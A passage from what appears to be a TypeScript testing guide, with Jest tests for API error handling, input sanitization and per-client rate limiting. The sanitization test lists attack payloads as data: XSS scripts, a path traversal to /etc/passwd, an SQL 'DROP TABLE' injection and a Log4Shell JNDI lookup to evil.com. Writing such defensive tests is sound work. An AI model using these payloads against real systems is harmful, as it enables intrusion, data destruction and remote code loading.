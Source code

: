 ```typescript
  test('should handle API errors gracefully', async () => {
    const result = await client.fetchData({ invalidParam: 'test' });
    
    expect(result).toBeNull();
  });
});
```

## Security Testing Patterns

### Input Validation and Sanitization

```typescript
describe('Input Security', () => {
  const dangerousInputs = [
    '<script>alert("xss")</script>',
    'javascript:void(0)',
    'data:text/html,<script>alert(1)</script>',
    '../../etc/passwd',
    'null; DROP TABLE users;--',
    '${jndi:ldap://evil.com/x}',
    '<img src=x onerror=alert(1)>',
    'onclick="alert(1)"'
  ];

  test.each(dangerousInputs)('should sanitize dangerous input: %s', (input) => {
    const sanitized = sanitizeInput(input);
    
    expect(sanitized).not.toContain('<script>');
    expect(sanitized).not.toContain('javascript:');
    expect(sanitized).not.toContain('data:');
    expect(sanitized).not.toContain('onclick');
  });
});
```

### Rate Limiting Tests

```typescript
describe('Rate Limiting', () => {
  test('should enforce rate limits per client', () => {
    const rateLimiter = new RateLimiter(5, 1000); // 5 requests per second
    const clientId = 'test-client';

    // Should allow requests within limit
    for (let i = 0; i < 5; i++) {
      expect(rateLimiter.isAllowed(clientId)).toBe(true);
    }

    // Should deny additional requests
    expect(rateLimiter.isAllowed(clientId)).toBe(false);
  });

  test('should track different clients separately', () => {
    const rateLimiter = new RateLimiter(2, 1000);

    expect(rateLimiter.isAllowed('client1')).toBe(true);
    expect(rateLimiter.isAllowed('client2')).toBe(true);
    expect(rateLimiter.isAllowed('client1')).toBe(true);
    expect(rateLimiter.isAllowed('client2')).toBe(true);
  });
});
```
